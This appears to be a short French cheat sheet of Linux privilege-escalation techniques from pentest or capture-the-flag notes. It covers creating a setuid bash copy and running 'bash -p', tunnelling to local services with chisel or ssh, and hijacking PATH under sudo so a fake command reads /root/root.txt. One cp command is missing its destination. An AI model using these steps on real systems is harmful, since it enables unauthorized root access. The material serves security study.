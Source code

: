 # Privesc

> Exemple de tâches à effectuer pour obtenir une élévation de privilèges


### 2. Techniques

- **Rendre le binaire bash setuid :**

  ```bash
  $ cp /bin/bash
  $ chmod +s bash
  # Un binaire setuid modifie notre binaire en préservant les informations (le setuid) mais modifie le propriétaire (e.g. cp --preserve-mode)
  # Une fois le propriétaire modifié en root
  # Il ne faut pas oublier d'utiliser le "-p" car par défaut, les exécutables shell ignorent le bit setuid. 
  $ bash -p # -p permet de garder l'effective user
  ```

- **Regarder les services tournants en local sur la machine cible** et faire une proxychain (voir chisel ou ssh) pour y accéder en local depuis notre machine hôte

- Pas de variable `secure_path` lorsque l'on fait un `sudo -l` : **overwrite la commande si le chemin passé n'est pas absolu :**

  ```bash
  $ echo -n "cat /root/root.txt" > /tmp/<COMMANDE_A_MODIFIER>
  $ chmod 777 /tmp/<COMMANDE_A_MODIFIER>
  $ export PATH=/tmp:$PATH 
  ```



## References

[1]: https://www.youtube.com/watch?v=Yp4oxoQIBAM